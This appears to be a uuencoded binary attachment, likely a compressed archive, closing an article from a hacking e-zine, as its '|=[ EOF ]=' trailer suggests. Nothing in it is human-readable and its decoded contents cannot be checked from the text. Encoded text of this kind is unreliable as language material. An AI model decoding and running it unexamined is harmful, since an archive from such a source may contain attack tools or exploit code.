M@P!-CDR%><S^5H-1'U\8'>OX(PN>%3:!WE6"L)[-T93T,8V^].AVY)P+%3BW
M(;)UC0M8/*46RXCR.I&@N%RMD@6]QXX1UD!<U[7ZK(B23BMIT3$PLWZ2P.M<
M3+X+G,0;%4&J%@FYVC*GV7LRDWN=V_"BE=;SSK$Z#+F3V+N[N2FNX;^LH=D$
M!)($/:RM&25*F26*627VM`+\?;MJ'6:[F#+]%&*"X3I(!%4KV(#;2HY:T&:1
MR1%KE!!!W*1TU2Y_Q%8!-051H6Z75Z0"7L/\GW;WB,5B5'TH%,:9!!?GN/+[
MT_77Y(=6U+];!4(_EULGI=9?2YD6\K&G[))M<B;UX@BM]#X(*;M5S0^K=%+`
MPKV98%*9`@:!U7O;A(.*X<25Q<:X1"N5T>'63]/$6D/%J54/-I"J.LIX:&#%
MC8E7S[%D<-$<W,$Q1"YIKJ_$#UH^YNF/+>'??+G*.\#\ZU7]L=:KQ\17?O!?
M/2;XV$K)OJ7)_[<%1)EU.`X\AH,AV<OK0\C;=-W1-*..+.01!4(1E+`E1->:
M?"AU7H2QH);(P7_>@3?=FB=+NWIQ=5:J<2TE6>"(J*PGWG?Z6L!JT4PI:BW<
M.B+8*%#(OE(B,0P7'@#O8.2<@E/8;#M$8)9F[)*,]U"RP8%2,ZK@+'P.HO#R
M"X?7+D;533/9&9*=,1UVSZKWIRG&3R79[MN?H:;6__0"84O33]@&^1'DP5;1
MVO)W(PZV[B4.MG*)`Z<<V,Y0Q(Q[=OG4,&X)<S"WSS4[4B^>VJ8#5/@<4H(.
M!AA^;!^(-*WV29V3J@ED>_"8H/#$-A">%\/'Y:@C['1*)1,7S3RX&`6WGF*Q
MM+>52_I"6XQ"I,8R]%JBV_<54C.$[[:-@EMTIC,48MZ6()TX'V.ZKJ'J?)G:
MU;9,T\F\9FS5'-NS?'#SBZ\6PXAJ60)C(S9)[6+B3P8H_$GIE\^3[6"$5IYD
M&ZOA/B"1*^P<B+[@EF#XN0.F]'BR"N9X:G=#[email protected]]=&A5J8+7$JSZ\\N]0
M&8:=]+F@YH'T1:C)4,<?)A\^!5_(I/+^AN/Q!'L#@Q*XF(*`O"/"T4=C>#CJ
M\XL'I`:7M)0@04JS%Z!:R"T6.$*J[)1/&3F91WX'FY\<<9.A1$[FP8'876-K
M(,,+*B%=QMO%NXJ\V$EF3QYH4`K`XF%B1V5EX!2Z)HD`,%V,(VKE/V[OVHBW
MJ?:)MH4DV6V.&DGA]=<=/?/PQA[X31BMR"W05I`CH`$U8SBMS\]3OX3!<!![
MH^F`.G1CFW'HLI-@N?77+$FX9.C1A"A#GDV%$G3(%R"?+_YPXQ]M'Y7*5FVS
M6-Q+4W%0'(!/!DK-"UK;)2`Y1?5ZEWXXG$7(DCF`=ZHK.091;NTUZY4_P2!<
MHCW'WR^UJO5E^]C'(EK8<<.]6]NJE5WOU9X>;+T\Y8-YJ;M7:S;W-)X*Y
M9(?9HLKF@+U4JM5?5=JOOB'LV8!;C*%Y2+S\ZM765OM;DGA.T+40&WE(9K=6
M;N]5_AP4DQ/FQJOFYN[FJ^<E%0Q*D@/8VFYEJ]PL/CM/\G@IN?#;+F\V2JWG
M!EF$<LD!\UYMJUJKMJOSPUR0H`M'87R=G'T;BCU308WQ"(U7&?C-Q-/;%NKK
MQ62USM17H@YYU(=+^@@*'=-N;R;C:)J<=BF%2N`*Y'L7X_'0BV_#*5''!@'U
M(T&7ATOP205G%#B='X:74W!SIXX8'@%W-)X6=(1(*K/I%.8E7E_0N:<_.Z*_
M2W`Q^>Q'(;C%Q]YXQ)T#T!&/C'H\^FE*W66#T7AV=4V0>T5T4Z)5P#7M2GG]
M(IP"7@)]&H4*K^GPB%(-&O(YT)!,6B>XD+<`@NR(VMA7=-6@-[STR0[=+$I5
M6V%B`[6V1]T(X_77/`<(C22T`5JX./G^0#T)V^^.C[JG/1K9]:C[_MR+/J->
MCWM'I"*+36='=[8([I`XN&?V%P%HWWE.V<8J`IX-GC0>3M;C9.]"-LE5S18V
MD-KLI[;)(E8?7>ZQ^[6Q&-K`,32E9[3"#523B;QKTK#`;_'&GA]%OA4)Y6(^
M@`46$-@^!5:!C=GZ^G?Y8&/AHL`A9@1M:R!*."U7\X-(]F+@[email protected]
MF0(I@$>$`FTX`9-[AI#_&Y,&)^2C07#G_4(56"K\+^[6F'F$R'Y=O$AKK/D)
M0.@1H1_IYJL^$?AQ^%+"T`Y%YX?0RCD*?HMW]5*I_VK0W[3U>3GZ7"F7A,&,
MVXN9[4+:%2=;?_S&/)R24UP<?'^XUA^:>`(G-?@,5P9&,R*+N*_?.'+CB0+6
MNR"ZT2?2`/TO$:1Z`_+ZB;14.M<[]P>??4BXBW>;OE#+,4XL&:K.:*P*`.']
MOU\0S03+4".\F0T9J?41KQ"$NO2J(M=X^4ORGJ^"\34(*><(K;,RGHT&/<[8
M%FNF(>KYY*0+`\X6UJH.#C!/$1@YEL\Y'?9XK0^4A($I+%9)4E&F8>Q<P/O!
MV=!YYL+`)IE>:]-]J)7A4SN7Q\5$7SLV45Q-J/RCOW7M!BUYS*RJN]6BV!&.
MM>;D!I-P.+Z:434;[8!2'U22W=F(@N@MH\3""-TR+H51H)61*((<&_WKH/^)
MN^Z&(ZH_A=1SUY?#-=EA)*I13RID=$:8#/=^]Q)S2=LI(VF6<XTDPCQ=\OM,
MD-Q=5K*'XZR\6U?@!5$WO1TC(4G`Q6Z4]\>C:3B:!;TX\*/^M1WMF[2O1OYF
M!#53FZ28/EDV@R!/)EM2*EGIFEZ:NRE+"Z[MN%EQ:78>-J]9U%WV34ZD^
MG,*9('S3V"\3>=NBP4%*@X(O"Q1%[E66+F:F.!=CA0E/E")IDZ=(.L$1L,G`
M90=SJ5'-S4Z^RGJ2T(2T*F@6=*)LH::DJH:R7$6\V+0B+HZ3-7?$TC3A\&*V
M75FOZFN8&-=M\!/9N!!<D3=4J(]034_4R'#$]S4XY@N;"./:E'6!3=FY6HIS
MFDG9'/-3+Y#_XA/=0O*SK()T>*T3@7(H)983)U,Q=DWC*9\'N,(]>TKXK`=T
M(^P*#Q(`#$[]<`L.MK2[4#&U&]!+5,GI?D*7JN..<S/OR5>\U#K)/2_UFI>]
M&`6,UACZ7\:S:6*@R'&QJRHN`4DO"04U^14G>BC:;3EO.>%])"VLOUH`$#::
MQIA*0/T"O7#O%;Q&(VX[\<M'%`5.\X.BL:CKC,T<D>R]8&H)"_M$_1E`>F#"
MY=S^89HU#-F4M&/X@9'=W%@QKW%6BDU;:[:'B08_['KAGCML&6Y#4C2>19]#
M-+$0780OGPQ#=]:_BW<UTVSD"8_AD_>'S5^[1X='9"K)I!Y"+M9V]]3[-_U,
M?B<V$T@+VT[,B'8YS!N&O,[email protected]`"77X6A2)KT-W>U#V\5;"-,T3SJ]=PPV
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
(!"VB[@!8`@``
`
end
|=[ EOF ]=---------------------------------------------------------------=|